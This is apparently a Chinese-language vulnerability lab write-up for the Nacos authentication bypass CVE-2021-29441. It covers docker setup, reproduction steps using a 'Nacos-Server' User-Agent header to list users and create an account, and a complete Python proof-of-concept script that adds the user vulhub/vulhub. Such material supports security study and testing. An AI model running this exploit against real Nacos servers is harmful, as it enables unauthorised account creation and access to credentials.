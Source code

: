 # Nacos 认证绕过漏洞 CVE-2021-29441

## 漏洞描述

Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。

该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息。

参考链接：

- https://github.com/advisories/GHSA-36hp-jr8h-556f

## 环境搭建

运行漏洞环境：

```
docker-compose up -d
```

环境运行后，会开放3306、8848、9848、9555端口，在本次漏洞利用中，我们只需要用到8848端口，即web访问端口。

执行漏洞验证过程时，请先访问8848端口，确认开放，某些情况下nacos服务会启动失败（无法连接数据库导致），可以重启nacos服务或者重启所有服务。

```
docker-compose restart nacos
```

## 漏洞复现

漏洞利用过程如下：

1. 修改User-Agent的值为Nacos-Server到请求包中
2. 访问`http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9`查看状态码是否为200，且内容中是否包含`pageItems`
3. 使用POST方式访问`http://target:8848/nacos/v1/auth/users?username=vulhub&password=vulhub`添加一个新用户
4. 访问`http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9`获取已有的用户列表
5. 访问`http://target:8848/nacos/`，使用添加的新用户(vulhub/vulhub)进行登录

**检测漏洞是否存在**

添加Header头后访问`http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9`可以看到返回值为200，且内容中是否包含`pageItems`。

![image-20220226230032045](images/202202262300141.png)

**添加新用户**

添加Header头后使用`POST`方式请求`http://target:8848/nacos/v1/auth/users?username=test&password=test`添加一个新用户，账号密码都为`test`。

![image-20220226230105927](images/202202262301006.png)

**使用新建的账号进行登录**

使用账号密码`test/test`登录。

![image-20220226230250829](images/202202262302898.png)

## 漏洞POC

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import sys

import requests

headers = {
    "User-Agent": "Nacos-Server"
}


def check(target):
    endpoint = "/nacos/v1/auth/users?pageNo=1&pageSize=9"
    r = requests.get(target.strip("/") + endpoint, headers=headers)
    if r.status_code == 200 and "pageItems" in r.text:
        print target + " has vulnerabilities"
        return True
    print target + "has not vulnerabilities"
    return False


def add_user(target):
    add_user_endpoint = "/nacos/v1/auth/users?username=vulhub&password=vulhub"

    r = requests.post(target.strip("/") + add_user_endpoint, headers=headers)
    if r.status_code == 200 and "create user ok" in r.text:
        print "Add User Success"
        print "New User Info: vulhub/vulhub"
        print "Nacos Login Endpoint: {}/nacos/".format(target)
        exit(1)

    print "Add User Failed"


if __name__ == '__main__':
    if len(sys.argv) != 2:
        print "Please specify the target: python poc.py http://xxxxx:8848"
        exit(-1)
    if check(sys.argv[1]):
        add_user(sys.argv[1])
```

```
python poc.py http://target:8848
```

![image-20220226225534784](images/202202262255839.png)

